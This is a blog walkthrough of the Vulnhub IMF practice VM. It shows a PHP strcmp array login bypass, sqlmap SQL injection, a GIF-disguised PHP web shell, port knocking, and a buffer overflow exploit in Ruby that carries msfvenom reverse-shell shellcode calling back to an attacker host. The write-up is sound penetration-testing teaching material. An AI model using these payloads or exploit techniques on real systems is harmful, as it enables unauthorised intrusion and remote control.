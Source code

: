 +++
menu = "main"
Description = "A walkthrough of the IMF VM from Vulnhub"
Tags = [
  "pentesting",
  "boot2root",
]
date = "2016-11-01T19:16:02-04:00"
title = "B2R: IMF Walkthrough"
Categories = [
  "Pentesting",
]

+++

After mapping the network and finding our IP address at `192.168.1.162`, we can add it to our `/etc/hosts`
temporarily to make things a little easier for us.

~~~bash.prettyprint
echo "192.168.1.162     imf" >> /etc/hosts
~~~

Lets see what kind of machine we're dealing with. 

![](https://i.imgur.com/1DmhXnq.png)


Ok, so web only. Great. `nikto` didn't reveal any low-hanging fruit so let's dive into the source.

![](https://i.imgur.com/S4hPuB2.png)

Check that out! Our first flag was hidden in `http://imf/contact.php`. This looks like base64. After decoding
we get the clue `allthefiles`. Lets keep looking.

Going back to the source code, I found a javascript file that also looked like it was base64 but it didn't
return any results. After a while of going in circles I took my dog for a walk and pondered about what
'allthefiles' could mean. When I came back and looked over the source code again, I saw this:

![](https://i.imgur.com/ANZ1UgC.png)

All the files, ey? 

![](https://i.imgur.com/Ik1rUga.png)

If we visit that directory on our webapp

![](https://i.imgur.com/75xqVVJ.png)

Ok, no DB here. We're dealing with a hardcoded password which means we're dealing with an equaltiy operator
on the backend or possibly the `strcmp()` function. I messed around with nullbyte string termination exploits
here for a while but ultimately ended up nowhere. Let's assume we're dealing with `strcmp` since it's easier
to fool a function than to fool an operator. 

![](https://i.imgur.com/qo8t92C.png)

I'm not very good with PHP, but I'm guessing that I need this function to return a `0` so I fired up
[repl.it](https://repl.it) and started trying to break it. Turns out if you feed it the wrong type (it
expects two strings), it seems to return a `0`.

![](https://i.imgur.com/iQiFPrC.png)
 
So if we can feed this function an array from the web form, we might be able to bypass the password check. By
changing the name of the form's password field from `pass` to `pass[]`, we can do just that. 

![](https://i.imgur.com/DpxX4o7.png)

With the modified form, a BS password, and a username from the Contacts page, we get...

![](https://i.imgur.com/wB0UUP3.png)

The decoded flag just has us click through to the CMS

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo Y29udGludWVUT2Ntcw== | base64 -d
continueTOcms
~~~

The CMS has 3 pages to choose from and none of them seemed to have any relevant info. I tried (too long) to
use LFI exploits here, modifying URLs, headers, HTTP methods... nothing. I was trying to enter an empty
`pagename` for like the 100th time when I fat fingered the "enter" key and hit `' + Enter` at the same time
when I saw this:

![](https://i.imgur.com/Oqo4ZQg.png)

SQL! Alright, fired up `sqlmap`

![](https://i.imgur.com/izezAtP.png)
![](https://i.imgur.com/uckNUTe.png)

Looks like we have an image at `imfadministrator/images/whiteboard.jpg`

![](https://i.imgur.com/BBLfAQY.png)

The QR Code is our next flag `flag4{dXBsb2FkcjkOMi5waHA=}`

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo dXBsb2Fkcjk0Mi5waHA= | base64 -d
uploadr942.php   
~~~

We navigate to `http://imf/imfadministrator/uploadr942.php` and we get our uploader. After messing around
with it a bit we can see that the response html from a successful upload has a hash of some sort. I'm
guessing its the hashed version of the filename in the `/uploads` folder. 

Maybe we can craft a malicious image with a reverse_tcp meterpreter payload then insert the new page into our
db so it gets executed.

![](https://i.imgur.com/y8obNV4.png)

Let's upload it!

![](https://i.imgur.com/ePzjKU9.png)

Haha! Whoops. Alright what about just regular command execution:


~~~bash.prettyprint
cat <<EOF > muahaha.gif
GIF89a
<?php \`id\` ?>
~~~

Since CrappyWAF detects functions calls, we should modify our script to take the command from a query
parameter. Let's replace `id` with `$cmd=$_GET['cmd']; echo $cmd` and try again.

![](https://i.imgur.com/v0uaGPw.png)

Lets get a shell that's easier to work with with `msfvenom`.

![](https://i.imgur.com/lXrjIik.png)
![](https://i.imgur.com/dRelPbw.png)


It's time to get a sense of the machine we're in. "Presence"

  * interesting processes - knockd, sshd
  * interesting files (world readable, executable root files, etc) - `/usr/local/bin`
    * `cat /usr/local/bin/access_codes #> SYN 7482,8279,9467`
    * `/usr/local/bin/agent` - connect to some sort of agent portal; download it
  * listening ports `netstat -plnt` - 7788

It looks like we've got a hidden service running on 7788. To enable it, we have to 'knock' in the right order
so the firewalll opens up. If we send SYN packets to 7482 8279 9467, it might open up.

![](https://i.imgur.com/SgDQYRk.png)
![](https://i.imgur.com/SdM3380.png)

Lets decompile our downloaded binary at https://retdec.com/decompilation-run/

![](https://i.imgur.com/WnuLN8R.png)

We can see on line 49 where the authentication happens. It's comparing against a string that was defined on
line 37, `0x2ddd984`. If we pop this into an online hex converter, we get `48093572`

![](https://i.imgur.com/rs6S3Yf.png)

After navigating through our binary, we have a place where we have user input. This is looking like it's
going to be a buffer overflow exploit. Once we download our application and run it through `gdb`, we confirm
that the report function is vulnerable. 

![](https://i.imgur.com/4CxBLoX.png)
![](https://i.imgur.com/bD9RCyw.png)

Bingo. Plug 0x41366641 into `pattern_offset` we see that our buffer ends at 168, meaning our EIP register is
at 169. If we inspect the assembly for the `report` function, we see that our report string is stored in EAX.
Because we have control of both EIP and EAX, it makes sense that we use this control to point one to the
other. We can place our exploit at the beginning of EAX by simply injecting it as the "report". We'll then
pad the input string until it's 168 characters long. Then, well tell EIP that it should return to the
beginning of EAX where our payload is waiting.  If we search to see if EAX is ever called, we can use that
address in EIP. 

![](https://i.imgur.com/R7BFi8b.png)
![](https://i.imgur.com/3yWsjBr.png)

Lets generate our shellcode and start to write the exploit.

~~~bash.prettyprint
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.161 LPORT=4444 -f ruby -b "\x00\x0a\x0d"
~~~

~~~bash.prettyprint
require 'socket'

host = '192.168.1.162'

if ARGV[0] == 'knock'
  [7482, 8279, 9467].each do |port|
    puts "knocking on #{port}"
    `nmap -Pn --host_timeout 201 --max-retries 0 -p #{port} #{host} &>/dev/null`
  end
end

buf = 
"\xda\xd4\xd9\x74\x24\xf4\x58\xbb\xc8\x28\xf5\xc3\x29\xc9" +
"\xb1\x12\x31\x58\x1a\x83\xc0\x04\x03\x58\x16\xe2\x3d\x19" +
"\x2e\x34\x5e\x09\x93\xe8\xca\xac\xa3\x69\x83\x50\x0e\xf5" +
"\x04\xc9\xf9\x36\x82\xef\x58\xde\xd0\xef\x8b\x43\x5d\x0e" +
"\xc1\x1d\x05\x81\x47\xb5\x3c\xc0\x2b\xf4\xbe\xb1\xab\xbf" +
"\xbe\xa5\xb3\xbf\x37\x26\x72\x54\x4b\x68\x96\xa7\xe3\x17" +
"\x94\x38\x58\x61\xc7\xa0\xe8\x7d\xb8\xd0\xd9\xfe\x47\x37"

eip = "\x63\x85\x04\x08"

exploit = buf + "A"*70 + eip

s = TCPSocket.new(host, 7788)
puts s.readpartial(512)
s.write("48093572\n")

puts s.readpartial(512)
s.write("3\n")

puts s.readpartial(512)
s.write(exploit + "\n")
~~~

Let's run it!

![](https://i.imgur.com/ImmvfQj.png)

And there we have it! Thanks for reading!


